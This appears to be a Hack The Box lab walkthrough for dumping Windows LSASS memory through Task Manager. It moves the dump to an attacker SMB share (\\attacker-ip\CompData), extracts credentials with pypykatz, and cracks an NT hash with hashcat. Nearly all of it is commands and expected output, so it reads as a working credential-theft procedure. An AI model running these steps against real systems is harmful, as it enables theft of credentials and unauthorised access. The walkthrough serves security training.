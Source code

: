 #### Complete Example: Task Manager Method
```bash
# 1. Connect to target via RDP
xfreerdp /v:10.129.202.149 /u:htb-student /p:HTB_@cademy_stdnt!

# 2. On target - Use Task Manager (Run as Administrator)
# - Open Task Manager (Ctrl+Shift+Esc)
# - Processes tab → Find "Local Security Authority Process"
# - Right-click → "Create dump file"
# - File saved to: C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP

# 3. On attacker - Start SMB server
sudo impacket-smbserver -smb2support CompData /home/kabaneridev/Documents/hackthebox/tmpdir

# Expected output:
# [*] Config file parsed
# [*] Incoming connection (10.129.202.149,49675)
# [*] User FS01\htb-student authenticated successfully
# [*] Connecting Share(1:CompData)

# 4. On target - Transfer dump file (try different methods)
# Method 1: Full path
move "C:\Users\htb-student\AppData\Local\Temp\lsass.DMP" \\attacker-ip\CompData

# Method 2: Change directory first
cd C:\Users\htb-student\AppData\Local\Temp
move lsass.DMP \\attacker-ip\CompData

# Method 3: Use copy instead of move
copy "C:\Users\htb-student\AppData\Local\Temp\lsass.DMP" \\attacker-ip\CompData

# 5. On attacker - Extract credentials
pypykatz lsa minidump ./lsass.DMP

# 6. Extract NT hash from output
# Look for lines like: NT: 31f87811133bc6aaa75a536e77f64314

# 7. Crack NT hash
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt

# 8. Get plaintext password from hashcat output

# Troubleshooting Transfer Issues:
# If "Access is denied":
# - Run cmd as Administrator
# - Check file exists: dir C:\Users\htb-student\AppData\Local\Temp\lsass.DMP
# - Check SMB connection: dir \\attacker-ip\CompData
# - Try copy instead of move
# - Use quotes around paths with spaces
```
